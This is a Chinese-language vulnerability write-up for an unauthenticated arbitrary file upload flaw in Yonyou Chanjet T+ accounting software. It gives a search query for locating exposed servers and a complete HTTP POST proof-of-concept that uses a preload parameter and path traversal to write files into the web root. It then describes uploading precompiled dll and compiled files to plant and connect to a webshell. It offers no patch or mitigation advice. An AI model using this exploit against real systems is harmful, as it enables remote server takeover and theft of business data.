 # 用友 畅捷通T+ Upload.aspx 任意文件上传漏洞

## 漏洞描述

用友 畅捷通T+ Upload.aspx接口存在任意文件上传漏洞，攻击者通过 preload 参数绕过身份验证进行文件上传，控制服务器

## 漏洞影响

```
用友 畅捷通T+
```

## 网络测绘

```
app="畅捷通-TPlus"
```

## 漏洞复现

登录页面

![](images/202209131041324.png)

存在漏洞的接口为`/tplus/SM/SetupAccount/Upload.aspx`, 对应文件 `App_Web_upload.aspx.9475d17f.dll`

![](images/202209131041333.png)

上传文件类型验证不完善，可上传任意文件到服务器中的任意位置，验证POC

```
POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1
Host:
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 261
User-Agent: Mozilla/5.0 (iPod; U; CPU iPhone OS 3_0 like Mac OS X; ko-KR) AppleWebKit/535.16.4 (KHTML, like Gecko) Version/3.0.5 Mobile/8B117 Safari/6535.16.4
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVXR9biLu
Connection: close

------WebKitFormBoundaryVXR9biLu
Content-Disposition: form-data; name="File1";filename="../../../../../../../Program Files (x86)/Chanjet/TPlusStd/WebSite/1.txt"
Content-Type: image/jpeg

1
------WebKitFormBoundaryVXR9biLu--
```

由于应用为预编译的，直接上传的 `aspx木马`无法直接利用，需要通过上传 `dll 与 compiled `文件后利用Webshell

![](images/202209131041137.png)

将 `dll 与 compiled` 文件上传至 Web应用的 bin目录上，aspx上传至 Web根目录下

![](images/202209131042534.png)

![](images/202209131042543.png)

![](images/202209131042554.png)

再访问写入的Webshell进行连接

```
/tplus/shell.aspx?preload=1	
```